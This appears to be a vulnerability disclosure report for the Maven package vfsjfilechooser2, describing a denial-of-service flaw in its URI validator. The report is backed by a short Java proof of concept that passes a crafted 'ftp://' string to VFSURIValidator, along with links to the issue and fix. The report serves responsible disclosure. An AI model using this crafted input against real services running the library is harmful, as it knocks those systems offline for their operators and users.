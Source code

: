 **Submission details:**

**Package Manager:** maven
**Affected module:** vfsjfilechooser2
**Link to published package:** https://github.com/fracpete/vfsjfilechooser2
**Link to GitHub repo:** https://github.com/fracpete/vfsjfilechooser2
**Other vulnerability type:** 
**Severity level:** High
**Module Description:** vfsjfilechooser2 is a mavenized fork of the dormant vfsjfilechooser project on sf.net 

**Vulnerability Description:**

It allows cause a denial of service when validating crafted invalid uris.

**Steps to reproduce:**

```java
import com.googlecode.vfsjfilechooser2.utils.VFSURIValidator;

public class Main {
    public static void main(String[] args) {
        VFSURIValidator v = new VFSURIValidator();
        String _uri = "ftp://:@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::";
        System.out.println(v.isValid(_uri));
    }
}
```

You can execute `./PoC/Demovfsjfilechooser2/src/com/company/Main.java`

**Did I contact the maintainer:** Yes
**Did I open an issue:** Yes

**References:**

https://github.com/fracpete/vfsjfilechooser2/issues/7

https://github.com/fracpete/vfsjfilechooser2/commit/9c9f2c317f3de5ece60a3ae28c371e9796e3909b